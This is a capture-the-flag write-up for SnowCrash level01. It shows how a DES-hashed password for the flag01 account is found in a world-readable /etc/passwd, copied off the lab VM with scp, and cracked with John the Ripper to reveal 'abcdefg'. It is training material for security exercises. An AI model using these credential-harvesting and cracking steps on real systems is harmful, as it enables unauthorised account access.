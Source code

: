 # LEVEL 01

## Vulnerability & exploit

Weak hashed password stored in world-readable file -> Crack password with brute-force

## External resources and commands

john the ripper

## Initial Context

Once again, our home directory is empty.
Given the lack of information, we can check /etc/passwd, as it can provide useful information on groups and users.

## Solving the challenge

In this case, we see that it contains a hashed password for flag01.

```
level01@SnowCrash:~$ grep 'flag01' /etc/passwd flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

According to [this discussion](https://security.stackexchange.com/questions/92766/what-can-hackers-do-with-ability-to-read-etc-passwd), most systems did this in the past, before using the more secure /etc/shadow.

Back then, it took some work to crack hashed passwords. Nowadays, there are tools to try millions of combinations, so let's try with the john software.
First, download the /etc/passwd on your local machine:

```
$:/snowcrash# scp -P 4242 scp://level01@<VM_IP_ADDR>/../../../etc/passwd level01/Ressources/passwd
```

Then, run john on that file:

```
$:/snowcrash# john level01/Ressources/passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefg          (flag01)
1g 0:00:00:00 100% 2/3 33.33g/s 46433p/s 46433c/s 46433C/s raquel..bigman
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So we can log in as flag01 with password "abcdefg" and run getflag to get the token for level01.
